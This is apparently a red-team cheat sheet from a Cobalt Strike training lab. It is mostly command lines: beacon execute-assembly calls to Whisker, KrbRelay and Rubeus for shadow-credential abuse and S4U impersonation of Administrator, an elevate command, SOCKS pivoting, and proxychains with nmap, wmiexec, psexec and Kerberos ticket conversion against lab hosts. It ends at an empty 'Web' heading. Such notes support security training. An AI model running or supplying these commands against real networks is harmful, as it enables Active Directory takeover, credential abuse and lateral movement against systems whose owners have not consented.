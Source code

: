 ```bash
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:wkstn-2$
beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/dc-2.dev.cyberbotic.io -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred -port 10
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-2$ /certificate:MIIJyA[...snip...]QCAgfQ /password:"06ce8e51-a71a-4e0c-b8a3-992851ede95f" /enctype:aes256 /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:host/wkstn-2 /user:wkstn-2$ /ticket:doIGkD[...snip...]5pbw== /ptt
beacon> elevate svc-exe-krb tcp-local
```

## Pivoting

### Socks

> Since this is bound on all interfaces, any device that has network access to the team server VM may, in theory, interact with the SOCKS traffic.  Even though this should not be the case, the use of SOCKS5 gives an additional layer of protection.

```bash
beacon> socks 1080
# Socks5
beacon> socks 1080 socks5 disableNoAuth myUser myPassword enableLogging
```

### Proxychains

```bash
attacker@ubuntu ~> sudo vim /etc/proxychains.conf
socks5 127.0.0.1 1080 myUser myPassword
proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
proxychains wmiexec.py DEV/jking@10.10.122.30
```

### Kerberos

```bash
proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
export KRB5CCNAME=jking.ccache
proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
```

```bash
# ticket.kirbi
echo -en 'doIFzj[...snip...]MuSU8=' | base64 -d > bfarmer.kirbi
ticketConverter.py bfarmer.kirbi bfarmer.ccache
proxychains mssqlclient.py -dc-ip 10.10.122.10 -no-pass -k dev.cyberbotic.io/bfarmer@sql-2.dev.cyberbotic.io
```

### Web
